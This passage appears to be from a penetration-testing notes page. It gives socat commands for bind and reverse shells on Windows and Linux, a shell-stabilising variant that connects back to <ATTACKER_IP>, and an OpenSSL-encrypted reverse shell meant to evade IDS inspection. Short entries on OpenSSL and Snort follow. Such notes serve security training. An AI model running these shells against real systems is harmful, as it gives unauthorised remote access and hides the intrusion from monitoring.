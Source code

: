 ```shell
socat TCP-L:443 EXEC:powershell.exe,pipes    # Windows target ("pipes" forces Windows to use Linux-style I/O)
socat TCP-L:443 EXEC:"bash -li"              # Linux target
 
 # from the attacker machine, connect to the above bind shell
 socat TCP:<TARGET_IP>:443 -
```

_Advanced use of SoCat for more stable shell (Linux only)_
```shell
# start a listener connecting the open port with the file descriptor of the current terminal (instead of the terminal output)
# this allows to pass options "raw" and "echo=0" to force it to forward raw data without interpreting them
socat TCP-L:443 FILE:`tty`,raw,echo=0

# from the target machine, connect to that listener
# This requires SoCat to be available on the target machine (usually downloaded as a pre-compiled binary)
# We pass a number of options to stabilize the shell
socat TCP:<ATTACKER_IP>:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

We can use encryption with OpenSSL to encrypt the traffic and prevent IDS to analyze it.  
This requires to create a certificate locally, and use it without verification :
```shell
# local machine : create a new 2048-bit RSA key with its certificate
# All requested info can be left blank or use random values
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

# local machine : merge the key and the certificate files into a single PEM file
cat shell.key shell.crt > shell.pem

# local machine start a SoCat listener using that key/certificate
# Note that we could use here the more stable version using the tty file descriptor as well
socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0 -

# target machine : connect to the above listener
socat OPENSSL:<ATTACKER_IP>:443,verify=0 EXEC:/bin/bash
```


### OpenSSL

[OpenSSL](https://www.openssl.org/) is an open-source command-line tool for cryptography and secure communications.  
It is commonly used to generate private keys, create CSRs, install an SSL/TLS certificate, and identify certificate information.


### Snort

Snort is the most widely used open-source IDS solution.  
It uses both signature-based and anomaly-based detection to identify threats.  
It contains many built-in rules containing known attack patterns, and custom rules can be added.
